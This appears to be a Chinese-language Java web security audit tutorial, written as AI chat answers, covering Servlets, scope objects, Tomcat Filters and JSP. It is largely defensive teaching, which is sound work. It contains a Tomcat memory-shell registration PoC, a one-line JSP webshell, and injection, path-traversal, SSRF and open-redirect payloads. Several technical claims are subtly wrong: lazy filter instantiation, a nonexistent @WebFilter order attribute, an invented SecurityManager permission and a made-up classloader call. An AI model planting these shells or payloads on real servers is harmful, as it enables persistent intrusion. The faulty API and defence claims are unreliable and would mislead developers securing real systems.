| **输入必校验** | 所有 `req.getParameter()` 都不可信 |
| **权限必校验** | 每个敏感操作前检查当前用户身份     |
| **输出必转义** | 防 XSS（尤其返回 HTML/JSON 时）    |
| **错误要脱敏** | 不向用户暴露堆栈、SQL、路径        |
| **最小权限**   | Servlet 只做该做的事，不混杂逻辑   |

> 💡 **审计口诀**：  
> **见 `doGet`/`doPost`，必查参数与权限；  
> 见 `req.getParameter`，必想注入与越权。**

---

下一步你可以问：
- 如何通过 Servlet 实现内存马（Memory Shell）？
- `web.xml` 与注解配置的安全差异？
- Filter 与 Servlet 的协作安全模型？

继续深入，你的 Java Web 安全能力将覆盖从基础到高阶的完整防御体系！

#### 核心技术

非常好！作为网络安全工程师学习 Java 代码审计，**掌握 Servlet 的生命周期、四大域对象（Scope Objects）和核心 HTTP 对象**，是理解 Web 应用数据流、识别 **会话劫持、权限绕过、信息泄露、跨站请求伪造（CSRF）** 等漏洞的关键基础。

下面我将从 **规范定义、作用范围、安全风险、审计要点** 四个维度，结合 Java EE 规范和安全实践，为你系统梳理。

---

##### 一、Servlet 的生命周期（由 Web 容器管理）

> 📚 **依据：Java Servlet Specification（JSR 340）**

Servlet 的生命周期完全由 **Web 容器（如 Tomcat）** 控制，包含三个阶段：

| 阶段          | 方法                                                        | 调用时机                                   | 安全意义                                                     |
| ------------- | ----------------------------------------------------------- | ------------------------------------------ | ------------------------------------------------------------ |
| **1. 初始化** | `init(ServletConfig config)`                                | 首次请求时（或配置 `load-on-startup ≥ 0`） | 可用于加载配置；若在此执行危险操作（如连接远程服务器），可能被触发 |
| **2. 服务**   | `service(HttpServletRequest req, HttpServletResponse resp)` | **每次 HTTP 请求**                         | 容器根据请求方法自动调用 `doGet()`/`doPost()` 等 → **主要攻击面** |
| **3. 销毁**   | `destroy()`                                                 | 容器关闭或应用卸载时                       | 释放资源（如数据库连接、文件句柄）                           |

> ⚠️ **关键点**：
> - `init()` 和 `destroy()` **只执行一次**
> - `service()` 及其子方法（`doGet`/`doPost`）**每次请求都执行**
> - **多线程共享**：同一个 Servlet 实例被多个线程并发调用 → **避免在 Servlet 中使用实例变量存储请求数据！**

```java
public class BadServlet extends HttpServlet {
    private String userInput; // ❌ 危险！多线程共享，导致数据污染

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
        this.userInput = req.getParameter("input"); // 线程不安全
        process(userInput);
    }
}
```

✅ **正确做法**：所有请求数据应作为局部变量处理。

---

##### 二、四大域对象（Scope Objects）

这四个对象用于在不同范围内**共享数据**，是 JSP/Servlet 间传递状态的核心机制。

| 域对象                 | 类型                                    | 作用范围                         | 生命周期                               | 安全风险                           |
| ---------------------- | --------------------------------------- | -------------------------------- | -------------------------------------- | ---------------------------------- |
| **PageContext**        | `javax.servlet.jsp.PageContext`         | **当前 JSP 页面**                | 一次请求中单个 JSP 的执行期间          | 极低（仅限页面内）                 |
| **HttpServletRequest** | `javax.servlet.http.HttpServletRequest` | **一次请求（Request）**          | 从客户端发起请求到响应返回             | **高危！输入来源、参数污染、SSRF** |
| **HttpSession**        | `javax.servlet.http.HttpSession`        | **一次会话（Session）**          | 用户首次访问到会话超时（默认 30 分钟） | **会话固定、权限提升、信息泄露**   |
| **ServletContext**     | `javax.servlet.ServletContext`          | **整个 Web 应用（Application）** | 应用启动到停止                         | **全局变量污染、敏感信息泄露**     |

> 🔑 **记忆口诀**：  
> **Page → Request → Session → Application**（范围从小到大）

**各域对象的典型使用方式：**

```java
// 1. Request 域（一次请求）
req.setAttribute("user", user);

// 2. Session 域（用户会话）
HttpSession session = req.getSession();
session.setAttribute("loginUser", user);

// 3. Application 域（全局）
ServletContext app = getServletContext();
app.setAttribute("appConfig", config);
```

---

##### 三、核心 HTTP 对象（Servlet 中的输入/输出）

###### 1. **`HttpServletRequest` —— 请求对象（输入源）**
封装客户端发送的所有信息：

| 方法                        | 用途                            | 安全风险                                          |
| --------------------------- | ------------------------------- | ------------------------------------------------- |
| `getParameter(String name)` | 获取 GET/POST 参数              | **XSS、SQL 注入、命令注入起点**                   |
| `getHeader(String name)`    | 获取 HTTP 头（如 `User-Agent`） | **IP 伪造（`X-Forwarded-For`）、SSRF**            |
| `getCookies()`              | 获取 Cookie                     | **会话劫持、越权**                                |
| `getRequestURI()`           | 获取请求路径                    | **路径遍历、未授权访问**                          |
| `getRemoteAddr()`           | 获取客户端 IP                   | **注意：可能被代理覆盖，需结合 `X-Real-IP` 校验** |

> ✅ **安全原则**：  
> **所有来自 `HttpServletRequest` 的数据都是不可信的！**

---

###### 2. **`HttpServletResponse` —— 响应对象（输出通道）**
用于向客户端返回数据：

| 方法                                | 用途         | 安全风险                                    |
| ----------------------------------- | ------------ | ------------------------------------------- |
| `getWriter()` / `getOutputStream()` | 写入响应内容 | **XSS 输出点、敏感信息泄露**                |
| `setHeader(String, String)`         | 设置响应头   | **CRLF 注入、缓存控制缺失**                 |
| `sendRedirect(String location)`     | 重定向       | **开放重定向（Open Redirect）**             |
| `addCookie(Cookie)`                 | 设置 Cookie  | **未设 `HttpOnly`/`Secure` → XSS 窃取会话** |

> ✅ **安全实践**：
> ```java
> // 设置安全 Cookie
> Cookie sessionCookie = new Cookie("JSESSIONID", sessionId);
> sessionCookie.setHttpOnly(true);   // 防 XSS 窃取
> sessionCookie.setSecure(true);     // 仅 HTTPS 传输
> resp.addCookie(sessionCookie);
> ```

---

##### 四、安全审计 checklist

| 对象                      | 检查点                                                       |
| ------------------------- | ------------------------------------------------------------ |
| **Servlet 生命周期**      | 是否在 `init()` 中执行危险操作？是否使用实例变量存储请求数据？ |
| **`HttpServletRequest`**  | 是否对 `getParameter()`、`getHeader()` 做校验？是否信任 `X-Forwarded-For`？ |
| **`HttpSession`**         | 是否在登录时生成新 Session（防会话固定）？是否存储敏感信息（如密码）？ |
| **`ServletContext`**      | 是否存储数据库密码、密钥等全局敏感数据？                     |
| **`HttpServletResponse`** | 是否输出未转义的用户输入？是否设置安全 Cookie？是否允许开放重定向？ |

---

##### 五、典型漏洞场景

###### 🔒 场景 1：**会话固定（Session Fixation）**
```java
// 登录前未生成新 Session
HttpSession session = req.getSession(); // 复用攻击者提供的 JSESSIONID
session.setAttribute("user", authenticatedUser);
```
✅ **修复**：登录成功后调用 `req.getSession(true).invalidate()` + 新建 Session。

###### 🔒 场景 2：**开放重定向**
```java
String redirect = req.getParameter("back");
resp.sendRedirect(redirect); // ?back=https://attacker.com
```
✅ **修复**：重定向 URL 必须白名单校验。

###### 🔒 场景 3：**全局配置泄露**
```java
// 在某个 Servlet 中
getServletContext().setAttribute("dbPassword", "secret123");
```
→ 任何 JSP/Servlet 都可通过 `${applicationScope.dbPassword}` 读取！

---

##### 六、总结

| 概念                 | 安全核心                                                    |
| -------------------- | ----------------------------------------------------------- |
| **Servlet 生命周期** | 多线程安全、初始化逻辑风险                                  |
| **四大域对象**       | 数据共享范围决定泄露影响面                                  |
| **HTTP 对象**        | `Request` 是输入源（不可信），`Response` 是输出口（需转义） |

> 💡 **审计黄金法则**：  
> **“Request 进，Response 出，Session 认，Application 慎。”**

---

下一步你可以问：
- 如何通过 `HttpSession` 实现权限提升？
- `ServletContext` 在反序列化中的利用？
- Filter 如何与四大域对象协作实现安全控制？

继续深入，你的 Java Web 安全能力将更加体系化！

#### Servlet的安全问题

非常好！作为网络安全工程师学习 Java 代码审计，**深入理解 Servlet 的安全问题**是识别和防御 Web 应用漏洞的核心能力。Servlet 是 Java Web 应用的“入口控制器”，几乎所有 HTTP 请求都经过它处理，因此其安全性直接决定了整个系统的安全边界。

下面我将从 **输入验证、认证授权、会话管理、输出处理、配置安全、高危反模式** 六大维度，结合真实漏洞场景和审计要点，系统梳理 **Servlet 的典型安全问题**。

---

##### 一、输入验证缺失（最常见攻击面）

###### 🔒 风险 1：**SQL 注入**
```java
protected void doGet(HttpServletRequest req, HttpServletResponse resp) {
    String id = req.getParameter("id");
    String sql = "SELECT * FROM users WHERE id = " + id; // ❌ 拼接
    stmt.executeQuery(sql);
}
```
✅ **修复**：使用 `PreparedStatement` 参数化查询。

###### 🔒 风险 2：**命令注入（RCE）**
```java
String cmd = req.getParameter("cmd");
Runtime.getRuntime().exec(cmd); // ❌ 直接执行
```
✅ **修复**：避免执行系统命令；若必须，使用白名单+参数校验。

###### 🔒 风险 3：**路径遍历（LFI/RFI）**
```java
String file = req.getParameter("file");
FileInputStream fis = new FileInputStream("/var/www/" + file); // ?file=../../../etc/passwd
```
✅ **修复**：校验文件名白名单，禁止 `..`、`/` 等字符。

###### 🔒 风险 4：**SSRF（Server-Side Request Forgery）**
```java
String url = req.getParameter("avatar");
new URL(url).openStream(); // 可请求 http://169.254.169.254（云元数据）
```
✅ **修复**：限制协议（仅 `https`）、校验域名白名单、禁用内网 IP。

> 📌 **审计要点**：  
> 所有 `req.getParameter()`、`getHeader()`、`getCookies()` 都视为**不可信输入**，必须校验！

---

##### 二、认证与授权缺陷

###### 🔒 风险 1：**水平越权（IDOR）**
```java
// 用户 A 访问 /user?id=123（本应只能看自己）
String userId = req.getParameter("id");
User user = userService.findById(userId); // ❌ 未校验是否属于当前用户
resp.getWriter().println(user.getEmail());
```
✅ **修复**：强制校验 `userId == currentUser.getId()`。

###### 🔒 风险 2：**垂直越权（权限提升）**
```java
if ("admin".equals(req.getParameter("role"))) {
    session.setAttribute("isAdmin", true); // ❌ 客户端可伪造
}
```
✅ **修复**：权限信息必须从服务端可信来源获取（如数据库），**绝不信任客户端输入**。

###### 🔒 风险 3：**未授权访问**
- 敏感接口（如 `/admin/deleteUser`）未做任何权限校验。
- 通过 URL 猜测直接访问内部 API。

✅ **修复**：
- 所有敏感操作前调用 `checkPermission()`；
- 使用 Spring Security 或自定义 Filter 统一鉴权。

---

##### 三、会话管理不当

###### 🔒 风险 1：**会话固定（Session Fixation）**
```java
// 登录前未生成新 Session
HttpSession session = req.getSession(); // 复用攻击者提供的 JSESSIONID
session.setAttribute("user", authenticatedUser);
```
✅ **修复**：登录成功后 **`invalidate()` 旧 Session 并创建新 Session**。

###### 🔒 风险 2：**会话 Cookie 不安全**
```java
Cookie c = new Cookie("JSESSIONID", sessionId);
resp.addCookie(c); // ❌ 未设 HttpOnly/Secure
```
✅ **修复**：
```java
c.setHttpOnly(true);   // 防 XSS 窃取
c.setSecure(true);     // 仅 HTTPS 传输
c.setPath("/");
```

###### 🔒 风险 3：**会话超时过长**
- 默认 30 分钟，敏感系统应缩短至 15 分钟以内。

---

##### 四、输出处理不当（XSS 与信息泄露）

###### 🔒 风险 1：**反射型/存储型 XSS**
```java
String msg = req.getParameter("msg");
resp.getWriter().println("<div>" + msg + "</div>"); // ❌ 未转义
```
✅ **修复**：
- HTML 输出：使用 `org.apache.commons.text.StringEscapeUtils.escapeHtml4()`
- JSON 输出：使用 Jackson/Gson 自动转义

###### 🔒 风险 2：**敏感信息泄露**
```java
catch (Exception e) {
    resp.getWriter().println("Error: " + e.getMessage()); // ❌ 泄露 SQL、路径
}
```
✅ **修复**：用户只看到 “系统错误”，详细日志记录在服务端（脱敏）。

---

##### 五、配置与部署安全

###### 🔒 风险 1：**目录遍历 / 源码泄露**
- Tomcat 未禁用 `listings`，导致 `/WEB-INF/` 可被遍历（虽然 `.class` 通常不可读，但 `web.xml` 可能泄露）。
- 错误配置使 `.jsp`、`.java` 文件可直接下载。

✅ **修复**：
- `conf/web.xml` 中设置 `<listings>false</listings>`
- 禁止直接访问 `WEB-INF`、`META-INF`

###### 🔒 风险 2：**HTTP 方法未限制**
- 允许 `PUT`、`DELETE`、`TRACE` 等方法，可能被用于攻击。
- 示例：`PUT /shell.jsp` 上传 WebShell。

✅ **修复**：
- 在 `web.xml` 或 Servlet 中重写 `doPut()`、`doDelete()` 并返回 405
- 使用 WAF 限制方法

###### 🔒 风险 3：**未设置安全响应头**
缺少以下关键 Header：
```http
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Content-Security-Policy: default-src 'self'
Strict-Transport-Security: max-age=31536000
```
✅ **修复**：通过 Filter 统一添加安全头。

---

##### 六、高危反模式（审计重点）

| 反模式                                | 风险               | 修复建议        |
| ------------------------------------- | ------------------ | --------------- |
| **在 Servlet 中写业务逻辑**           | 逻辑混乱，易漏校验 | 移至 Service 层 |
| **使用实例变量存储请求数据**          | 多线程数据污染     | 改为局部变量    |
| **动态拼接重定向 URL**                | 开放重定向         | 白名单校验      |
| **信任 `X-Forwarded-For` 做 IP 判断** | IP 伪造            | 结合代理链校验  |
| **未处理异常导致 DoS**                | 服务崩溃           | 全局异常处理    |

---

##### 七、总结：Servlet 安全审计 checklist

| 类别       | 检查点                                   |
| ---------- | ---------------------------------------- |
| ✅ **输入** | 是否校验所有参数？是否防注入？           |
| ✅ **权限** | 是否校验用户身份和权限？是否防越权？     |
| ✅ **会话** | 是否防会话固定？Cookie 是否安全？        |
| ✅ **输出** | 是否转义？是否泄露敏感信息？             |
| ✅ **配置** | 是否禁用危险 HTTP 方法？是否设置安全头？ |
| ✅ **异常** | 是否全局捕获异常并脱敏？                 |

> 💡 **核心原则**：  
> **“不信任任何客户端输入，不暴露任何服务端细节。”**

---

下一步你可以问：
- 如何通过 Filter 实现统一安全控制？
- 内存马（Memory Shell）如何利用 Servlet 注册后门？
- Spring Security 如何与原生 Servlet 协作？

继续深入，你的 Java Web 安全能力将覆盖从传统到高阶攻防的完整链条！

### Filter

#### 使用与生命周期

非常好！作为网络安全工程师学习 Java 代码审计，**掌握 Filter（过滤器）的使用与生命周期** 是理解 **统一权限校验、日志记录、输入净化、内存马（Memory Shell）** 等机制的关键。Filter 是 Java Web 安全架构中的核心组件，既是**防御屏障**，也可能被**武器化为后门入口**。

下面我将从 **基本概念、生命周期、使用方式、安全应用、高危风险** 五个维度，结合 Java EE 规范和安全实践，为你系统解析。

---

##### 一、Filter 是什么？

> 📚 **Java Servlet Specification（JSR 340）定义**：  
> **Filter 是在请求到达 Servlet 之前、响应返回客户端之前执行的组件**，用于对请求/响应进行**预处理或后处理**。

**核心作用：**

- 统一身份认证（如检查登录态）
- 权限控制（如 RBAC）
- 输入过滤（如 XSS/SQLi 防御）
- 日志记录（如审计日志）
- 响应压缩、编码设置
- **高级攻击：动态注册内存马**

> ✅ **执行流程**：  
> `Client → Filter1 → Filter2 → ... → Servlet → Filter2 → Filter1 → Client`  
> （形成“过滤器链”，责任链模式）

---

##### 二、Filter 的生命周期（由容器管理）

Filter 的生命周期比 Servlet 更简单，只有三个阶段：

| 阶段          | 方法                                                         | 调用时机                                         | 安全意义                                                     |
| ------------- | ------------------------------------------------------------ | ------------------------------------------------ | ------------------------------------------------------------ |
| **1. 初始化** | `init(FilterConfig filterConfig)`                            | **Web 应用启动时**（每个 Filter 实例只调用一次） | 可用于加载规则、初始化白名单；若在此执行危险操作，可能被触发 |
| **2. 过滤**   | `doFilter(ServletRequest req, ServletResponse resp, FilterChain chain)` | **每次请求经过该 Filter 时**                     | **核心逻辑所在**：可放行（`chain.doFilter()`）、拦截、修改请求/响应 |
| **3. 销毁**   | `destroy()`                                                  | **Web 应用停止时**                               | 释放资源（如关闭连接池）                                     |

> ⚠️ **关键点**：
> - `init()` 和 `destroy()` **只执行一次**
> - `doFilter()` **每次请求都执行**
> - **多线程共享**：Filter 实例是单例的，避免在其中使用非线程安全的成员变量

---

##### 三、Filter 的使用方式

###### 方式 1：**注解配置（Servlet 3.0+）**
```java
@WebFilter("/*")
public class AuthFilter implements Filter {
    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) 
            throws IOException, ServletException {
        HttpServletRequest request = (HttpServletRequest) req;
        // 检查是否登录
        if (request.getSession().getAttribute("user") == null) {
            resp.getWriter().println("Unauthorized");
            return; // ❌ 不调用 chain.doFilter() → 拦截请求
        }
        chain.doFilter(req, resp); // ✅ 放行
    }
}
```

###### 方式 2：**web.xml 配置**
```xml
<filter>
  <filter-name>AuthFilter</filter-name>
  <filter-class>com.example.AuthFilter</filter-class>
</filter>
<filter-mapping>
  <filter-name>AuthFilter</filter-name>
  <url-pattern>/admin/*</url-pattern>
</filter-mapping>
```

> ✅ **推荐**：敏感系统使用 `web.xml` 显式配置，避免注解被意外暴露。

---

##### 四、Filter 的安全应用（防御视角）

###### ✅ 1. **统一认证与授权**
```java
if (!isAuthenticated(request)) {
    ((HttpServletResponse) resp).sendError(401);
    return;
}
if (!hasPermission(request)) {
    ((HttpServletResponse) resp).sendError(403);
    return;
}
chain.doFilter(req, resp);
```

###### ✅ 2. **输入净化（XSS/SQLi 防御）**
```java
// 对所有参数进行 HTML 转义
HttpServletRequestWrapper wrapped = new SafeRequestWrapper(request);
chain.doFilter(wrapped, resp);
```

###### ✅ 3. **安全响应头设置**
```java
HttpServletResponse response = (HttpServletResponse) resp;
response.setHeader("X-Content-Type-Options", "nosniff");
response.setHeader("X-Frame-Options", "DENY");
chain.doFilter(req, resp);
```

###### ✅ 4. **审计日志**
```java
logger.info("Request: {} from {}", request.getRequestURI(), getClientIP(request));
chain.doFilter(req, resp);
logger.info("Response sent");
```

---

##### 五、Filter 的高危安全风险（攻击视角）

###### 🔒 风险 1：**内存马（Filter-based Memory Shell）**
- 攻击者通过反序列化、文件上传等漏洞，**动态注册恶意 Filter**，实现无文件落地的 WebShell。
- 示例（利用 Tomcat API）：
  ```java
  // 动态添加 Filter
  Context ctx = ...; // 获取 Tomcat Context
  FilterDef def = new FilterDef();
  def.setFilterClass(MaliciousFilter.class.getName());
  ctx.addFilterDef(def);
  
  FilterMap map = new FilterMap();
  map.addURLPattern("/*");
  ctx.addFilterMap(map);
  ```
- **特点**：重启前持久化，难以检测。

✅ **防御**：
- 禁止反序列化不可信数据
- 使用 SecurityManager 限制反射
- 监控 `javax.servlet.Filter` 的动态注册行为

###### 🔒 风险 2：**Filter 逻辑绕过**
- 多个 Filter 顺序错误，导致安全 Filter 被跳过。
- 示例：日志 Filter 在认证 Filter 之后，未记录未授权请求。

✅ **修复**：明确 Filter 执行顺序（`@WebFilter(order=1)` 或 `web.xml` 顺序）。

###### 🔒 风险 3：**Filter 中未放行请求**
- 开发误写，忘记调用 `chain.doFilter()`，导致服务不可用（DoS）。

---

##### 六、代码审计 checklist

| 检查项                             | 说明                                      |
| ---------------------------------- | ----------------------------------------- |
| ✅ 是否存在自定义 Filter？          | 路径：`implements Filter` 或 `@WebFilter` |
| ✅ Filter 是否统一处理认证/授权？   | 避免在每个 Servlet 中重复校验             |
| ✅ 是否对请求/响应进行安全处理？    | 如 XSS 转义、安全头设置                   |
| ✅ 是否存在动态注册 Filter 的代码？ | 搜索 `addFilterDef`, `FilterRegistration` |
| ✅ Filter 执行顺序是否合理？        | 安全校验应在最前                          |

---

##### 七、总结：安全原则

| 场景     | 建议                                          |
| -------- | --------------------------------------------- |
| **防御** | 用 Filter 实现统一认证、输入过滤、安全头      |
| **开发** | 避免在 Filter 中存储请求级状态（线程安全）    |
| **审计** | 重点检查 Filter 是否被动态注册（内存马）      |
| **部署** | 敏感系统优先使用 `web.xml` 配置，避免注解误配 |

> 💡 **核心口诀**：  
> **“Filter 是门神，守好进出关；  
> 动态注册要警惕，内存马藏其间。”**

---

下一步你可以问：
- 如何检测和清除 Filter 内存马？
- Listener 与 Filter 的安全协作？
- Spring Security 的 Filter Chain 原理？

继续深入，你的 Java Web 安全能力将覆盖从防御到攻防对抗的完整体系！

#### 源码分析

非常好！作为网络安全工程师深入 Java 代码审计，**分析 Tomcat 中 Filter 的源码实现** 是理解 **内存马（Memory Shell）注册机制、Filter 动态加载、权限绕过** 等高阶攻击技术的关键。下面我将基于 **Apache Tomcat 9.x/10.x 源码**（主流版本），从 **Filter 注册、初始化、执行链构建、动态添加** 四个核心环节进行深度解析，并结合安全攻防视角指出关键风险点。

---

##### 一、前置知识：Tomcat 架构简述

在 Tomcat 中：
- **`StandardContext`**：代表一个 Web 应用（即 `<Context>`）
- **`ApplicationFilterChain`**：负责管理 Filter 链的执行
- **`FilterDef` / `FilterMap`**：分别描述 Filter 的定义和 URL 映射
- **`ApplicationFilterConfig`**：封装 Filter 实例和配置

> 📌 **关键包路径**：  
> `org.apache.catalina.core.*`

---

##### 二、Filter 的静态注册与初始化流程

###### 1. **启动时加载（web.xml 或注解）**
当 Web 应用启动时，Tomcat 会解析 `web.xml` 或扫描 `@WebFilter` 注解，将 Filter 信息存入 `StandardContext`：

```java
// StandardContext.java
private Map<String, FilterDef> filterDefs = new HashMap<>();
private List<FilterMap> filterMaps = new ArrayList<>();
```

- `FilterDef`：存储 Filter 名称、类名、初始化参数
- `FilterMap`：存储 URL pattern 与 Filter 名称的映射

###### 2. **Filter 实例化（懒加载）**
Filter **不会在应用启动时立即实例化**，而是在**首次匹配请求时**通过 `ApplicationFilterFactory` 创建：

```java
// ApplicationFilterFactory.java
public static ApplicationFilterChain createFilterChain(...) {
    // ...
    for (String filterName : filterNames) {
        Filter filter = context.findFilter(filterName); // 懒加载
        if (filter == null) {
            filter = getFilterInstance(filterName); // ← 关键：实例化
        }
        filterChain.addFilter(filter);
    }
}
```

> 🔒 **安全意义**：  
> 攻击者无法通过“启动时注入”直接触发 Filter 执行，但可通过**发送匹配请求**触发初始化。

---

##### 三、Filter 链的执行机制（`ApplicationFilterChain`）

###### 核心方法：`doFilter()`
```java
// ApplicationFilterChain.java
public void doFilter(ServletRequest request, ServletResponse response) {
    if (pos < n) {
        ApplicationFilterConfig filterConfig = filters[pos++];
        Filter filter = filterConfig.getFilter();
        filter.doFilter(request, response, this); // ← 递归调用
    } else {
        servlet.service(request, response); // 最终调用 Servlet
    }
}
```

- `pos`：当前执行到第几个 Filter
- 每个 Filter 的 `doFilter()` 必须显式调用 `chain.doFilter()` 才能继续
- **若 Filter 不调用 `chain.doFilter()`，请求被拦截**

> 💡 **内存马原理**：恶意 Filter 在 `doFilter()` 中：
> 1. 检查特定参数（如 `?cmd=whoami`）
> 2. 执行命令并写入响应
> 3. **不调用 `chain.doFilter()`** → 隐藏原始页面，避免日志异常

---

##### 四、动态注册 Filter（内存马的核心）

这是**无文件 WebShell** 的关键技术。攻击者通过反射或反序列化，**在运行时向 `StandardContext` 添加 Filter**。

**关键步骤（以 Tomcat 9 为例）：**

###### Step 1：获取 `StandardContext` 实例
```java
// 通常通过 Thread.currentThread().getContextClassLoader() 获取
WebAppClassLoader webAppClassLoader = (WebAppClassLoader) Thread.currentThread().getContextClassLoader();
Context context = (Context) webAppClassLoader.getContext();
```

###### Step 2：创建 `FilterDef`
```java
FilterDef filterDef = new FilterDef();
filterDef.setFilterClass("com.attacker.MaliciousFilter");
filterDef.setFilterName("evilFilter");
filterDef.setFilter(new MaliciousFilter()); // 或后续实例化
context.addFilterDef(filterDef);
```

###### Step 3：创建 `FilterMap`
```java
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*"); // 匹配所有请求
filterMap.setFilterName("evilFilter");
context.addFilterMapBefore(filterMap); // 插入到链首
```

> ⚠️ **关键 API**：
> - `context.addFilterDef(FilterDef)`
> - `context.addFilterMapBefore(FilterMap)` → **确保恶意 Filter 优先执行**

完整 PoC 片段（简化）：

```java
// 动态注册内存马 Filter
Context ctx = ...; // 获取 StandardContext

// 1. 定义 Filter
FilterDef def = new FilterDef();
def.setFilterName("shell");
def.setFilterClass(MaliciousFilter.class.getName());
def.setFilter(new MaliciousFilter());
ctx.addFilterDef(def);

// 2. 映射 URL
FilterMap map = new FilterMap();
map.addURLPattern("/*");
map.setFilterName("shell");
ctx.addFilterMapBefore(map); // 插入最前
```

> 🔥 **为什么能成功？**  
> Tomcat 的 `StandardContext` **未对运行时修改做安全校验**，只要能拿到 Context 引用，即可动态注册组件。

---

##### 五、安全风险与检测点

🔒 高危风险：

1. **无文件落地**：Filter 字节码可从网络加载（如 `defineClass`）
2. **持久化**：重启前一直生效
3. **隐蔽性强**：不修改磁盘文件，传统杀毒软件无法检测

🔍 检测思路：

| 方法                                           | 说明                                                         |
| ---------------------------------------------- | ------------------------------------------------------------ |
| **监控 `StandardContext.addFilterDef()` 调用** | 通过字节码插桩或 RASP 拦截                                   |
| **检查 Filter 链中非预期 Filter**              | 对比部署包中的 `web.xml` 与运行时 Filter 列表                |
| **分析 Filter 类来源**                         | 是否来自 `WEB-INF/classes` 之外？是否由自定义 ClassLoader 加载？ |

✅ 防御措施：

1. **禁用反序列化**：避免攻击者获取 `Context` 引用
2. **使用 SecurityManager**（虽已 deprecated，但仍有价值）：
   ```java
   permission "org.apache.catalina.security.StandardContextPermission" "addFilter";
   ```
3. **升级 Tomcat**：新版本增加 `JreMemoryLeakPreventionListener` 等防护
4. **RASP 监控**：实时检测 `addFilterDef`、`defineClass` 等敏感操作

---

##### 六、总结：关键源码路径与安全启示

| 组件                     | 源码路径（Tomcat 9）                              | 安全意义      |
| ------------------------ | ------------------------------------------------- | ------------- |
| `StandardContext`        | `org.apache.catalina.core.StandardContext`        | 动态注册入口  |
| `ApplicationFilterChain` | `org.apache.catalina.core.ApplicationFilterChain` | Filter 执行链 |
| `FilterDef / FilterMap`  | `org.apache.tomcat.util.descriptor.web.*`         | Filter 元数据 |

> 💡 **核心结论**：  
> **Tomcat 的 Filter 机制本身是安全的，但其开放的运行时 API 为内存马提供了温床。**  
> 安全的关键在于：**限制对 `Context` 的访问 + 监控动态注册行为**。

---

下一步你可以问：
- 如何通过 RASP 检测 Filter 内存马？
- Listener 和 Valve 的内存马实现差异？
- Spring Boot 内嵌 Tomcat 的 Filter 注册机制？

继续深入，你将掌握 Java Web 高级攻防的核心技术栈！

### JSP

#### JSP工作原理

这是一个非常关键的问题！作为网络安全工程师学习 Java 代码审计，**理解 JSP（JavaServer Pages）的工作原理及其与 Servlet 的关系**，是识别 **JSP 后门、文件包含漏洞、表达式注入、权限绕过** 等 Web 安全问题的基础。

下面我将从 **工作原理、生命周期、与 Servlet 的关系、安全风险** 四个维度，结合 Java EE 规范和安全实践，为你系统解析。

---

##### 一、JSP 的工作原理（本质：动态生成 HTML）

> 📚 **JSP 规范（JSR 152 / Java EE）核心思想**：  
> **JSP 是 Servlet 的一种高级抽象形式**。所有 JSP 页面在运行时都会被 Web 容器（如 Tomcat）**自动转换为 Servlet 源码**，然后编译成 `.class` 文件执行。

###### 执行流程（以 Tomcat 为例）：

1. **首次请求 JSP 页面**（如 `http://example.com/test.jsp`）
2. **Web 容器检查是否已编译**：
   - 若未编译 → 调用 **JSP 编译器（Jasper）**
3. **将 JSP 转换为 Java Servlet 源码**（`.java` 文件）：
   - 静态 HTML → `out.write("...")`
   - JSP 脚本（`<% ... %>`）→ 直接嵌入到 `_jspService()` 方法中
   - JSP 表达式（`<%= ... %>`）→ `out.print(...)`
4. **编译生成的 `.java` 文件为 `.class`**
5. **加载并执行该 Servlet**，响应 HTTP 请求

> ✅ 示例：
```jsp
<!-- hello.jsp -->
<html>
<body>
  <h1>Hello <%= request.getParameter("name") %></h1>
</body>
</html>
```

会被转换为类似以下的 Servlet 代码：
```java
public final class hello_jsp extends HttpJspBase {
    public void _jspService(HttpServletRequest request, HttpServletResponse response) {
        PrintWriter out = response.getWriter();
        out.write("<html><body><h1>Hello ");
        out.print(request.getParameter("name")); // ← 表达式注入点！
        out.write("</h1></body></html>");
    }
}
```

---

##### 二、JSP 与 Servlet 的区别

| 特性         | JSP                                         | Servlet                               |
| ------------ | ------------------------------------------- | ------------------------------------- |
| **编写方式** | 以 HTML 为主，嵌入 Java 代码（`<% ... %>`） | 纯 Java 类，重写 `doGet()`/`doPost()` |
| **开发目的** | 快速构建动态页面（视图层）                  | 处理业务逻辑、控制流程（控制器层）    |
| **可读性**   | 对前端友好，但易混杂逻辑（“脚本汤”）        | 逻辑清晰，适合复杂控制                |
| **编译时机** | **首次请求时动态编译**（或预编译）          | 应用启动时加载（或按需加载）          |
| **底层实现** | **最终转为 Servlet**                        | 原生 Servlet                          |
| **性能**     | 首次访问慢（需编译），后续与 Servlet 相同   | 启动即就绪                            |

> 🔑 **核心结论**：  
> **JSP = 自动生成的 Servlet**，二者在运行时没有本质区别。

---

##### 三、JSP 的安全风险（代码审计重点）

###### 🔒 风险 1：**JSP 后门（WebShell）**
- 攻击者上传 `.jsp` 文件到 Web 目录（如通过文件上传漏洞）：
  ```jsp
  <%@ page import="java.io.*" %>
  <%
      Runtime.getRuntime().exec(request.getParameter("cmd"));
  %>
  ```
- 由于 JSP 会被自动编译执行，**等同于直接部署一个 Servlet 后门**。

✅ **防御**：
- 禁止用户上传目录下的 `.jsp`、`.jspx` 等可执行文件
- 配置 Web 容器（如 Tomcat）限制特定目录的 JSP 执行

---

###### 🔒 风险 2：**表达式语言（EL）注入 / XSS**
- JSP 支持 EL 表达式（如 `${user.name}`），若未转义，可导致 XSS：
  ```jsp
  <input value="${param.q}"> <!-- 若 q=<script>...，则 XSS -->
  ```
- 更危险的是 **OGNL/SpEL 注入**（在 Struts、Spring 等框架中）。

✅ **修复**：
- 使用 `<c:out value="${param.q}" escapeXml="true"/>` 转义
- 避免直接输出用户输入

---

###### 🔒 风险 3：**文件包含漏洞（Local File Inclusion）**
- 某些 JSP 引擎支持动态包含：
  ```jsp
  <jsp:include page="<%= request.getParameter("page") %>" />
  ```
- 若未校验 `page` 参数，攻击者可读取任意文件：
  ```
  ?page=/WEB-INF/web.xml
  ```

✅ **审计要点**：  
搜索 `<jsp:include>`、`<%@ include file=... %>` 是否使用动态路径。

---

###### 🔒 风险 4：**JSP 编译目录信息泄露**
- Tomcat 默认将编译后的 `.java` 和 `.class` 文件放在：
  ```
  $TOMCAT/work/Catalina/localhost/_/org/apache/jsp/
  ```
- 若目录遍历漏洞存在，可能泄露源码。

---

##### 四、JSP 与 Servlet 在安全架构中的定位

| 层级                     | 推荐技术                        | 原因                   |
| ------------------------ | ------------------------------- | ---------------------- |
